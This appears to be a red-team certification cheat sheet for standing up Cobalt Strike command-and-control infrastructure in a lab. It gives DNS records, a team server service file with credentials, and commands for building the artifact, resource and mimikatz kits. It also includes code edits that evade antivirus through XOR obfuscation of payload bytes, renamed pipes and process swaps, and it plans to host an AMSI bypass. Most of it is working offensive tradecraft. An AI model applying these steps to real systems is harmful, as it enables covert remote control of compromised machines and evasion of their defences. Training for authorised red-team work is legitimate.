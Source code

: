 # CRTO Infrastructure Cheat Sheet

1. Setup DNS records
2. Load Malleable C2 profile and change out https-certificate block (use nopsled.profile which is custom webbug.profile)
3. Setup teamserver.service enabled on boot
4. Create http, smb, dns, tcp, tcp-local listeners
5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
6. Modify bypass-pipe.c and patch.c, and build the artifact kit
7. Modify the template.x64.ps1 file and build the resource kit
8. Build the mimikatz kit
9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)
10. Generate all Windows stageless CS payloads
11. Host the AMSI bypass at /bypass
12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)


## 1. Set DNS records

@ A 3600 10.10.5.50\
ns1 A 3600 10.10.5.50\
pics NS 3600 ns1.getwrecked.com

## 2. Load Malleable C2 profile

- Use nopsled.profile (custom webbug.profile)
- Change out the CN to match DNS in https-certificate

## 3. Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
```[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target
```

Setup the service to enable on boot after creating teamserver.service
`sudo systemctl daemon-reload`
`sudo systemctl status teamserver.service`
`sudo systemctl start teamserver.service`
`sudo systemctl enable teamserver.service`

## 4. Create http, smb, dns, tcp, tcp-local listeners

## 5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
`$template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna"; (Get-Content -Path $template_path) -replace 'rundll32.exe', 'dllhost.exe' | Set-Content -Path $template_path`

## 6. Modify bypass-pipe.c and patch.c, and build the artifact kit

### bypass-pipe.c: Change the sprintf call on line 130 and remove the comments above
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

### patch.c: Change for loops on lines 45 and around 115/120
```
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```

### Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## 7. Modify the template.x64.ps1 file and build the resource kit

### Edit template.x64.ps1
```
for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}
```

### Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`

## 8. Build the mimikatz kit

### Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`

## 9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)

## 10. Generate all Windows stageless CS payloads

## 11. Host the AMSI bypass at /bypass

## 12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)
